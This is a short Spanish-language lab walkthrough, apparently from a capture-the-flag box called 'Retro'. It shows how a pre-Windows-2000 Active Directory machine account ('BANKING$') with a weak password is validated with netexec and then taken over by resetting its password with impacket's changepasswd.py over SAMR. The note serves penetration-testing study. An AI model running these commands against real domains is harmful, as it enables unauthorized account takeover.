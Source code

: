 #changepasspy

----

Sirve para **cambiar la contraseña de una cuenta de usuario en un entorno Windows/Active Directory** usando los protocolos de red que el dominio expone (principalmente **SAMR** o **Kerberos**).

-----
# Enumeracion y explotacion

```
netexec smb 10.129.234.44 -u 'BANKING$' -p 'banking'
```

![[Retro18.png]]
Nos da el error STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
Buscando en internet este error encontramos el siguiente [articulo](https://medium.com/@offsecdeer/finding-weak-ad-computer-passwords-e3dc1ed220df)
Donde nos dice que es un windows 2000 aprox y que la contraseña es correcta, pero no nos deja entrar por cuestiones de seguridad, pero que si cambiamos la contraseña vamos a entrar sin problemas

Buscamos este script de impacket [[changepass.py]] con [[find]] usando el comando `find / -name changepasswd.py 2>/dev/null`

![[Retro19.png]]
Lo encontramos en esta ruta asi que lo vamos a ejecutar `python3 /usr/share/doc/python3-impacket/examples/changepasswd.py retro.vl/BANKING\$@10.129.234.44 -newpass 'exploit' -p rpc-samr`
Tenemos que poner el dominio/usuario/ip. Luego con `-newpass` ponemos la nueva contraseña, y el `-p` es para el pipe

![[Retro20.png]]
Luego comprobamos con [[netexec]] que la contraseña se cambio correctamente con el comando `netexec smb 10.129.234.44 -u 'BANKING$' -p 'exploit'`